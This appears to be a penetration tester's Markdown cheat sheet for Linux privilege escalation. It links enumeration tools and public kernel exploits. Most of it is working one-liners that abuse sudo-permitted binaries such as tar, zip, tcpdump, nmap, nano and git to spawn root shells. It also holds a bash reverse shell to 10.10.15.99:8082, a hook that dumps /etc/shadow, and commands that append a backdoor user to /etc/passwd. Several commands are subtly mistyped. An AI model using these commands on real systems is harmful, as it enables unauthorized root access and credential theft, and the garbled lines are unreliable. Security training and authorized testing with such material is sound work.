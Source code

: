 # Privilege Escalation

## Tools

- BeRoot: <https://github.com/AlessandroZ/BeRoot/tree/master/Linux>
- unix-privesc-check: <https://github.com/pentestmonkey/unix-privesc-check>
- linuxprivchecker.py - <http://www.securitysift.com/download/linuxprivchecker.py>
- LinEnum - <https://github.com/rebootuser/LinEnum>

## File Permissions

- Check file permissions of /etc/passwd and /etc/shadow

Find writable files

```
find -type f -maxdepth 1 -writable
```

Generate password hash (md5):

```
openssl passwd -1
```

```
echo 'joske' | openssl passwd -1 -stdin
```

Generate password hash (sha256):

```
python -c "import crypt; print crypt.crypt('joske')"
```

## SUID / SGID Binaries

Find SUID

```
find . -perm /4000
```

Find GUID

```
find . -perm /2000
```

Find SUID / SGID

```
find . -perm /6000
```

Find and ls SUID / SGID

```
find "$DIRECTORY" -perm /6000 -exec ls -la {} \;
```

## Searching world writable files

```
find / -perm -w ~ -type l -ls 2?/dev/null
```

## Plain text username / password

```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
```

## Commands with sudo

```
sudo -l
```

## New file Permissions

```
umask
```

## Exploits

- Mempodipper compiled (Ubuntu 11 -> gimmeroot.c)
- Ubuntu (<= 18.10) - Dirty Sock: <https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html>

  - <https://github.com/initstring/dirty_sock/>

- Ubuntu 14.04 and 16.04: (CVE-2017-1000112) <https://cxsecurity.com/issue/WLB-2018010018>

- Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)

  - <https://www.exploit-db.com/exploits/14339>
  - HTB: Beep

- [GNU Screen 4.5.0 - Local Privilege Escalation - https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154) - Nice example for learning exploit writing

### overlayfs

- Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation: <https://www.exploit-db.com/exploits/37292>
- Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) - 'overlayfs' Local Privilege Escalation (1): <https://www.exploit-db.com/exploits/39166>
- Linux Kernel 4.3.3 - 'overlayfs' Local Privilege Escalation (2): <https://www.exploit-db.com/exploits/39230>

## Tar

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
tar -cvf a.tar a.sh
sudo tar -xvf a.tar --to-command /bin/bash
```

## Zip

```
sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```

## Strace

```
sudo strace -o/dev/null /bin/bash
```

## tcpdump

```
echo $’id\ncat /etc/shadow’ > /tmp/.shell
chmod +x /tmp/.shell
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell-Z root
```

## nmap

```
echo "os.execute('/bin/sh')" > /tmp/shell.nse
sudo nmap --script=/tmp/shell.nse
```

## scp

```
sudo scp -S /path/yourscript x y
```

## except

```
sudo except spawn sh then sh
```

## nano

```
sudo nano -S /bin/bash
```

type your command and hit CTRL+T

## git

```
sudo git help status
```

type: !/bin/bash

## gdb/ftp

```
sudo ftp
```

type : !/bin/sh

## Add user with passwd

```
echo 'user2:*:1002:1003:,,,:/home/user2:/bin/bash' >> /etc/passwd
passwd user2

echo "user2:`openssl passwd -1 -salt user3 pass123`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

echo "user2:`mkpasswd -m SHA-512 pass`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

echo "user2:`python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

echo "user2:`perl -le 'print crypt("pass123", "abc")'`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd

echo "user2:`php -r "print(crypt('aarti','123') . \"\n\");"`:1002:1003:,,,:/home/user2:/bin/bash" >> /etc/passwd
```

## Add root user

```
adduser username
usermod -aG sudo username

```

## References

- <http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/>
- Linux Local Privilege Escalation via SUID /proc/pid/mem Write - <https://git.zx2c4.com/CVE-2012-0056/about/>
- <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>
